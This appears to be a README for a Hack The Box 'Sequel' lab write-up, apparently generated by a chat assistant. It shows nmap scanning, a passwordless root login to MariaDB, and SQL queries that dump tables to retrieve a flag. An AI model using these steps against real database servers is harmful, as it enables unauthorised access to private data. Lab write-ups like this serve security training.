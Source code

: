 Here’s a clean and structured `README.md` version of your MariaDB exploitation steps:

````markdown
# MariaDB Exploitation (HTB Sequel)

## Steps

### 1. Scan the target IP for open ports and services
```bash
nmap -sV -sC 10.129.191.64
````

### 2. Identify MariaDB Service

* Port `3306` is open and running **MariaDB** service.

### 3. Connect to the MariaDB Server

```bash
mysql -u root -h 10.129.191.64 -p --skip-ssl
```

* `-u root` → Username (root)
* `-h 10.129.191.64` → Host IP
* `-p` → Prompt for password
* `--skip-ssl` → Disable SSL for connection

### 4. Explore the Database

Once connected:

```sql
SHOW DATABASES;                  -- List all databases
USE {database_name};              -- Select a database
SHOW TABLES;                      -- List tables in the current database
SELECT * FROM {table_name};       -- View all data in a table
```

### 5. Retrieve the Flag

From the accessible tables, extract the flag or any sensitive data:

```sql
SELECT * FROM flag_table;
```

---

**💡 Note:** Always ensure you have permission before performing database exploitation. This process was done in a controlled **HTB (Hack The Box)** lab environment.

```

If you want, I can also make it **GitHub-styled with badges and a table of contents** so it looks more professional. That way it will stand out in your repo.
```

